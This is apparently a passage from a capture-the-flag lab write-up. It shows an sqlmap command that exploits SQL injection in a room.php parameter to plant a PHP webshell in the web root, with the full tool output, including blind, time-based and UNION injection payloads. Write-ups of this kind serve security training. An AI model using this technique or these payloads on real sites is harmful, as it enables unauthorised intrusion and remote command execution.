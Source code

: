 
I can use that to do the same phpmyadmin attack as shown above. But I can also use it to write a webshell:

    root@kali# sqlmap -u http://10.10.10.143:80/room.php?cod=1 --random-agent --level 1 --risk 1  --batch --file-write /opt/shells/php/cmd.php --file-dest /var/www/html/0xdf.php
            ___
           __H__
     ___ ___[.]_____ ___ ___  {1.3.4#stable}
    |_ -| . [.]     | .'| . |
    |___|_  [.]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 15:08:51 /2019-06-28/
    
    [15:08:51] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_6; en-US) AppleWebKit/534.18 (KHTML, like Gecko) Chrome/11.0.660.0 Safari/534.18' from file '/usr/share/sqlmap/txt/user-agents.txt'
    [15:08:52] [INFO] resuming back-end DBMS 'mysql' 
    [15:08:52] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: cod (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: cod=1 AND 8643=8643
    
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind
        Payload: cod=1 AND SLEEP(5)
    
        Type: UNION query
        Title: Generic UNION query (NULL) - 7 columns
        Payload: cod=-1250 UNION ALL SELECT CONCAT(0x71716a6b71,0x5a79784d6b726747766a5361735841666d6569556e4671434363656e617a77797162477578515647,0x716b717871),NULL,NULL,NULL,NULL,NULL,NULL-- FOKX
    ---
    [15:08:52] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Debian 9.0 (stretch)
    web application technology: Apache 2.4.25
    back-end DBMS: MySQL >= 5.0.12
    [15:08:52] [INFO] fingerprinting the back-end DBMS operating system
    [15:08:52] [INFO] the back-end DBMS operating system is Linux
    [15:08:52] [WARNING] expect junk characters inside the file as a leftover from UNION query
    do you want confirmation that the local file '/opt/shells/php/cmd.php' has been successfully written on the back-end DBMS file system ('/var/www/html/0xdf.php')? [Y/n] Y
    [15:08:52] [INFO] the remote file '/var/www/html/0xdf.php' is larger (41 B) than the local file '/opt/shells/php/cmd.php' (35B)
    [15:08:52] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.143'
    